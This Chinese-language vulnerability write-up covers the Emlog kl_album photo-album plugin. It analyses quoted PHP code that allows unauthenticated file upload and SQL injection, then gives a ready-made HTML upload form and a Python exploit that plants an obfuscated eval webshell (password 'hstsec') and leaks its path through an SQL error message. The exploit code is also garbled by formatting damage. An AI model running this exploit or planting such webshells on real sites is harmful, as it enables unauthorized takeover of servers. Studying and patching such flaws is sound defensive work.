



# Emlog 相册插件前台SQL注入+Getshell

> 原文：[https://www.zhihuifly.com/t/topic/2911](https://www.zhihuifly.com/t/topic/2911)

# Emlog 相册插件前台SQL注入+Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

首先安装Emlog的相册的插件



安装之后可以在目录：emlog\src\content\plugins\kl_album下找到所有的安装文件：



之后我们分析Kl-album_ajax_do.php文件

```
<?php
/**
 * kl_album_ajax_do.php
 * design by KLLER
 */
require_once('../../../init.php');
$DB = MySql::getInstance();
$kl_album_config = unserialize(Option::get('kl_album_config'));
if(isset($_POST['album']) && isset($_FILES['Filedata'])){
    if(function_exists('ini_get')){
        $kl_album_memory_limit = ini_get('memory_limit');
        $kl_album_memory_limit = substr($kl_album_memory_limit, 0, strlen($kl_album_memory_limit)-1);
        $kl_album_memory_limit = ($kl_album_memory_limit+20).'M'; 
```

```
 ini_set('memory_limit', $kl_album_memory_limit);
    }
    define('KL_UPLOADFILE_MAXSIZE', kl_album_get_upload_max_filesize());
    define('KL_UPLOADFILE_PATH', '../../../content/plugins/kl_album/upload/');
    define('KL_IMG_ATT_MAX_W',    100);//图片附件缩略图最大宽
    define('KL_IMG_ATT_MAX_H',    100);//图片附件缩略图最大高
    $att_type = array('jpg', 'jpeg', 'png', 'gif');//允许上传的文件类型
    $album = isset($_POST['album']) ? intval($_POST['album']) : '';
    if($_FILES['Filedata']['error'] != 4){
        $upfname = kl_album_upload_file($_FILES['Filedata']['name'], $_FILES['Filedata']['error'], $_FILES['Filedata']['tmp_name'], $_FILES['Filedata']['size'], $_FILES['Filedata']['type'], $att_type);
        $photo_size = chImageSize(EMLOG_ROOT.substr($upfname, 2), KL_IMG_ATT_MAX_W, KL_IMG_ATT_MAX_H);
        $result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})");
        if($result){
            $new_id = $DB->insert_id();
            $the_option_value = Option::get('kl_album_'.$album);
            if($the_option_value !== null){
                $the_option_value = trim($new_id.','.$the_option_value, ',');
                Option::updateOption('kl_album_'.$album, $the_option_value);
                $CACHE->updateCache('options');
            }
        }
    }
    exit;
}
if(ROLE != 'admin') exit('access deined!'); 
```

根据上面的代码，我们可以看到验证身份的代码在上传文件的后面，所以任意用户可以实现文件上传，那么之后我们再看看上传部分看看到底是如何进行验证或者对文件进行过滤的，这里面定义了一个$att_type = array('jpg', 'jpeg', 'png', 'gif');，并且将$att_type 这个变量和$_FILE一起传入了kl_album_upload_file函数

```
unction kl_album_upload_file($filename, $errorNum, $tmpfile, $filesize, $filetype, $type, $isIcon = 0){
    $kl_album_config = unserialize(Option::get('kl_album_config'));
    $extension  = strtolower(substr(strrchr($filename, "."),1));
    $uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
    $fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
    $attachpath = $uppath . $fname;
    if(!is_dir(KL_UPLOADFILE_PATH)){
        umask(0);
        $ret = @mkdir(KL_UPLOADFILE_PATH, 0777);
        if($ret === false) return '创建文件上传目录失败';
    }
    if(!is_dir($uppath)){
        umask(0);
        $ret = @mkdir($uppath, 0777);
        if($ret === false) return "上传失败。文件上传目录(content/plugins/kl_album/upload)不可写";
    }
    doAction('kl_album_upload', $tmpfile);
    //缩略
    $imtype = array('jpg','png','jpeg','gif');
    $thum = $uppath."thum-". $fname;
    $attach = in_array($extension, $imtype) && function_exists("ImageCreate") && kl_album_resize_image($tmpfile,$filetype,$thum,$isIcon,KL_IMG_ATT_MAX_W,KL_IMG_ATT_MAX_H) ? $thum : $attachpath;
    $kl_album_compression_length = isset($kl_album_config['compression_length']) ? intval($kl_album_config['compression_length']) : 1024;
    $kl_album_compression_width = isset($kl_album_config['compression_width']) ? intval($kl_album_config['compression_width']) : 768;
    if($kl_album_compression_length == 0 || $kl_album_compression_width == 0){
        if(@is_uploaded_file($tmpfile)){
            if(@!move_uploaded_file($tmpfile ,$attachpath)){
                @unlink($tmpfile);
                return "上传失败。文件上传目录(content/plugins/kl_album/upload)不可写";
            }else{
                echo 'kl_album_successed';
            }
            chmod($attachpath, 0777);
        }
    }else{
        if(in_array($extension, $imtype) && function_exists("ImageCreate") && kl_album_resize_image($tmpfile,$filetype,$attachpath,$isIcon,$kl_album_compression_length,$kl_album_compression_width)){
            echo 'kl_album_successed';
        }else{
            if(@is_uploaded_file($tmpfile)){
                if(@!move_uploaded_file($tmpfile ,$attachpath)){
                    @unlink($tmpfile);
                    return "上传失败。文件上传目录(content/plugins/kl_album/upload)不可写";
                }else{
                    echo 'kl_album_successed';
                }
                chmod($attachpath, 0777);
            }
        }
    }
    $attach = substr($attach, 6, strlen($attach));
    return     $attach;
} 
```

从上面的代码中我们发现，对于之前传入的$_type这个变量在这个函数里根本就没有起到任何左右，函数中定义的$imtype = array('jpg','png','jpeg','gif');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

```
$extension  = strtolower(substr(strrchr($filename, "."),1));
$uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
$attachpath = $uppath . $fname;
...
...
...
if(@!move_uploaded_file($tmpfile ,$attachpath)){ 
```

这里我们可以发现上传的文件名是：

```
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension; 
```

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是echo 'kl_album_successed';。难道，我们需要暴力破解shell名字？

我们返回kl_album_ajax_do.php，可以发现上传的if语句中有如下代码：

```
$result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})"); 
```

这里将$_FILES['Filedata']['name']直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。
所以所以，这里我们正好用到这个特性，通过报错可以将$upfname这个字段爆出来，这也就是我们上传成功的shell名字。
如何报错？上传文件名里加个单引号即可。

### 漏洞复现

```
<form id="exp" method="post" enctype="multipart/form-data">
<p>target url > <input id="url" type="text" style="width: 300px"></p>
<p>shell file > <input type="file" name="Filedata"></p>
<input name="album" type="hidden" value="111111" >
<p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
</form> 
```

保存为html，本地打开：


填入目标url，并选择要上传的shell。（如图，我这里是info'.php，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php
访问可见shell：



这里给出独自等待的一份payload：

```
#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf-8 -*-
# Date: 2015/4/30
# Created by 独自等待
# 博客 http://www.waitalone.cn/
import sys, os, re, time `try:

import requests

except ImportError:

raise SystemExit(’\n[!] requests模块导入错误,请执行pip install requests安装!’)

def usage():

# os.system([‘clear’, ‘cls’][os.name == ‘nt’])

print ‘+’ + ‘-’ * 60 + ‘+’

print ‘\t Python emlog相册插件getshell exploit’

print ‘\t   Blog：[http://www.waitalone.cn/](http://www.waitalone.cn/)’

print ‘\t\t Code BY： 独自等待’

print ‘\t\t Time：2015-04-30’

print ‘+’ + ‘-’ * 60 + ‘+’

if len(sys.argv) != 2:

print ‘用法: ’ + os.path.basename(sys.argv[0]) + ’ EMLOG 网站地址’

print ‘实例: ’ + os.path.basename(sys.argv[0]) + ’ [http://www.waitalone.cn/](http://www.waitalone.cn/)’

sys.exit()

def getshell(url):

‘’’

emlog相册插件上传getshell函数

:param url:  emlog url地址

:return:     返回得到的shell地址

‘’’

up_url = url + ‘content/plugins/kl_album/kl_album_ajax_do.php’

shell = “<?php @preg_replace(’\‘a\‘eis’,‘e’.‘v’.‘a’.‘l’.’($_POST[“hstsec”])’,‘a’);?>”

filename = “oneok’.php”

with open(filename, ‘wb’) as shellok:

shellok.write(shell)

files = {

‘Filedata’: (filename, open(filename, ‘rb’), ‘text/json’),

‘album’: (None, ‘[waitalone.cn](http://waitalone.cn)’)

}

try:

up_res = requests.post(up_url, files=files).content

shellok = re.findall(re.compile(r’(?<=../).+?(?=’,)’), up_res)

except Exception, msg:

print ‘\n[x] 发生错误了,卧槽!!!:’, msg

else:

if shellok: return url + shellok[0]

if **name** == ‘**main**’:

usage()

start = time.time()

url = sys.argv[1]

if url[-1] != ‘/’: url += ‘/’

ok = getshell(url)

try:

os.remove(‘oneok’.php’)

except Exception:

print ‘\n[x] 删除临时文件失败,请手工删除!’

if ok:

print ‘\n[!] 爷,人品暴发了，成功得到Shell：\n\n%s 密码：%s’ % (ok, ‘hstsec’)

else:

print ‘\n[x] 报告大爷,本站不存在此漏洞!’

print ‘\n报告爷,脚本执行完毕,用时:’, time.time() - start, ‘秒!’` 
```

## 四、参考链接

> https://blog.csdn.net/Fly_hps/article/details/80582751